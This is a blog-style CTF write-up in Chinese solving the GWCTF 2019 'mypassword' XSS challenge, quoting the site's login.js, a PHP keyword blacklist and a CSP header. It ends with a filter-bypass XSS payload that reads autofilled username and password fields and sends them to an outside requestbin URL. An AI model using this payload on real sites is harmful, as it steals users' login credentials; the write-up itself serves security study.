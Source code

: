 ```yaml
---
title: '[GWCTF 2019]mypassword'
date: 2024-09-06 20:22:45
tags: 
      - xss
categories: 刷题笔记
---
```


### [GWCTF 2019]mypassword(xss)

打开题目，后先查看源码有没有什么有用的东西，发现了`login.php、register.php`以及`login.js`

```
//login.js
if (document.cookie && document.cookie != '') {
	var cookies = document.cookie.split('; ');
	var cookie = {};
	for (var i = 0; i < cookies.length; i++) {
		var arr = cookies[i].split('=');
		var key = arr[0];
		cookie[key] = arr[1];
	}
	if(typeof(cookie['user']) != "undefined" && typeof(cookie['psw']) != "undefined"){
		document.getElementsByName("username")[0].value = cookie['user'];
		document.getElementsByName("password")[0].value = cookie['psw'];
	}
}
```

代码会把cookie中的username和password填进当前表单

注册登录，根据题目提示这应该不是sql注入题目

<!--more-->

再看到feedback.php源码中的注释

```
if(is_array($feedback)){
				echo "<script>alert('反馈不合法');</script>";
				return false;
			}
			$blacklist = ['_','\'','&','\\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
			foreach ($blacklist as $val) {
		        while(true){
		            if(stripos($feedback,$val) !== false){
		                $feedback = str_ireplace($val,"",$feedback);
		            }else{
		                break;
		            }
		        }
		    }
```

根据黑名单过滤的内容可以判断为XSS题目了

不过随便试试提交的内容发现，content.php响应头内有如下内容

```
Content-Security-Policy：default-src 'self';script-src 'unsafe-inline' 'self'
```

允许内联脚本执行, 但是不可以远程请求js脚本执行

构造payload把账号密码发到xss平台（http://requestbin.cn/）

```
<inpcookieut type="text" name="username"></inpcookieut>
<inpcookieut type="text" name="password"></inpcookieut>
<scricookiept scookierc="./js/login.js"></scricookiept>
<scricookiept>
	var uname = documcookieent.getElemcookieentsByName("username")[0].value;
	var passwd = documcookieent.getElemcookieentsByName("password")[0].value;
	var res = uname + " " + passwd;
	documcookieent.locacookietion="http://requestbin.cn/1c0ag8b?a="+res;
</scricookiept>
```

等待一会刷新requestbin 即可得到账号密码，flag为密码
![image-20240906204606733](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409062046793.png)
